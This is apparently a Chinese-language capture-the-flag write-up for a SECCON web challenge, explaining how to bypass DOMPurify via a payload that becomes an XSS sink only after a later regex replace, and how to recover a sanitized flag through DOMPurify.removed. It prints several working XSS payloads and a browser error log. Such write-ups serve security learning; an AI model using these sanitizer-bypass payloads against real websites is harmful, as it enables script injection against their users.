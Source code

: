 要解决的问题有两个

- 如何绕过DOMPurify进行xss
- 如何找回被replace掉的flag



#### 绕过DOMPurify

如果单论DOMPurify，题目用了很新的2.4.0版本，应该不会存在什么直接直接绕过的情况（搜了一下也确实没找到有啥绕过方式）。

重点在于，在DOMPurify之后还有别的处理，可以构造在replace之后才出现xss sink的payload，比如

```
SECCON{<img src="}<img src=1 onerror=alert(1)">\nSECCON{dummy}
```

加入换行符是为了使正则不会把整个payload都匹配到，而是分别匹配两个`SECCON`。

如果直接把这段payload打一下，会发现并没有alert成功，浏览器的console里会有这样的error

```
result?emoji=emojis%2Fchildren%2F3%2FinnerHTML&message=SECCON{%3Cimg%20src=%22}%3Cimg%20src=1%20onerror=alert(1)%22%3E\n%3Cscript%3ESECCON{dummy}:1 Uncaught SyntaxError: Invalid or unexpected token (at result?emoji=emojis%2Fchildren%2F3%2FinnerHTML&message=SECCON{%3Cimg%20src=%22}%3Cimg%20src=1%20onerror=alert(1)%22%3E\n%3Cscript%3ESECCON{dummy}:1:9)
```

点进去可以看到是 `alert(1)"` 语法错误，这时候可以在双引号前加两个正斜杠注释掉，即

```
SECCON{<img src="}<img src=1 onerror=alert(1)//">\nSECCON{dummy}
```

这样就可以成功alert了



#### 拿到被replace掉的flag

对于被replace掉的flag，可以用RegExp来找回

```
RegExp.input ($_)
RegExp.lastMatch ($&)
RegExp.lastParen ($+)
RegExp.leftContext ($`)
RegExp.leftContext ($')
RegExp.$1-$9
```

但是由于在replace之前还做了一次匹配

```
"".match(/^$/);
```

所以这条路已经走不通了，需要想办法让flag不要被replace掉，这时候可以想到前面的DOMPurify，可以在flag前加一个script标签，让它被sanitize掉，而被sanitize掉的标签可以通过`DOMPurify.removed`找回来。

可以构造

```
SECCON{<img src="}<img src=1 onerror=alert(1)//">\n<script>SECCON{dummy}
```
